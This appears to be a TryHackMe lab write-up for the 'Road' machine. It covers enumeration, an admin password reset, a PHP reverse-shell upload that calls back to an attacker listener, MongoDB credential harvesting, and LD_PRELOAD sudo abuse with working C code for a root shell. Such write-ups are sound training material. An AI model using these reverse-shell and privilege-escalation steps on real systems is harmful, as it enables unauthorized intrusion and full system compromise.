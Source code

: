 # Road
```sh
export IP=machine_ip
```
# Information Gathering:

```sh
nmap -A -sC -sV $IP
```
```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 20:57 CEST
Nmap scan report for 10.10.0.79
Host is up (0.086s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sky Couriers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
in the first dir bruteforce:

```sh
gobuster dir -u http://10.10.0.79 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
```sh
/v2                   (Status: 301) [Size: 305] [--> http://10.10.0.79/v2/]
```
in the second dir bruteforce:
```sh
gobuster dir -u http://10.10.0.79/v2 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
```sh
/admin                (Status: 301) [Size: 311] [--> http://10.10.0.79/v2/admin/]
```
visiting /v2/admin:

![Screenshot_25](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/55ac3812-1da6-47f6-be51-f3b26915689d)


I found /ResetUser.php  so i was able to changed admin password in burpsuite, like this : 

![Screenshot_27](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/39a6fd6f-d2c8-44c9-8775-2821fe690832)


By doing this i found upload avatar in the Profile
That might get us to manipulate the php-reverse-shell extension to be .php instead of .jpg 


![Screenshot_26](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/6e2bedaf-595b-4c9e-b760-7e7e3d2ce203)



![Screenshot_28](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/ccfb0248-3d53-49fd-8313-411d09fe0cd9)


This is the dir that has our revshell i found it in the admin  /profile.php  source code 

![Screenshot_29](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/cb24afb2-0e7a-48e7-ac78-6ea2f4e66395)

```sh
nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.0.79] 37742
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:02:45 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
# stabilize the reverse shell :
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
Press CTRL + Z to background process and get back to your host machine
stty raw -echo; fg
export TERM=xterm
```
# Privilege escalation:
```sh
www-data@sky:/$ ss -tulpn
Netid State  Recv-Q  Send-Q     Local Address:Port    Peer Address:Port Process 
udp   UNCONN 0       0          127.0.0.53%lo:53           0.0.0.0:*            
udp   UNCONN 0       0        10.10.0.79%eth0:68           0.0.0.0:*            
tcp   LISTEN 0       70             127.0.0.1:33060        0.0.0.0:*            
tcp   LISTEN 0       511            127.0.0.1:9000         0.0.0.0:*            
tcp   LISTEN 0       4096           127.0.0.1:27017        0.0.0.0:*            
tcp   LISTEN 0       151            127.0.0.1:3306         0.0.0.0:*            
tcp   LISTEN 0       4096       127.0.0.53%lo:53           0.0.0.0:*            
tcp   LISTEN 0       128              0.0.0.0:22           0.0.0.0:*            
tcp   LISTEN 0       511                    *:80                 *:*            
tcp   LISTEN 0       128                 [::]:22              [::]:*
```
```sh
There is:
port 33060: default port for MYSQL  
port 27017: default port for MongoDB
```

```sh

> show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "fakePassword" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
> 
```
```sh
ssh webdeveloper@IP 
```
```sh
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```
LD_PRELOAD is an environment variable in Unix-like systems, such as Linux, that allows you to specify additional shared libraries to be loaded before all others.
With this i could write c code script to spawn a root shell ,shell.c
```sh
#include <stdio.h> 
#include <stdlib.h>
#include <unistd.h>

void inject()__attribute__((constructor));

void inject() {
 	unsetenv("LD_PRELOAD");
 	setgid(0);
 	setuid(0);
 	system("/bin/bash");
}
```
compile the code:
```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
and run
sudo LD_PRELOAD=/home/webdeveloper/shell.so sky_backup_utility
```
```sh
webdeveloper@sky:~$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
webdeveloper@sky:~$ sudo LD_PRELOAD=/home/webdeveloper/shell.so sky_backup_utility
root@sky:/home/webdeveloper# cd /root
root@sky:~# ls
root.txt
root@sky:~# cat root.txt 
3a62d897c40a8flag
root@sky:~#

```
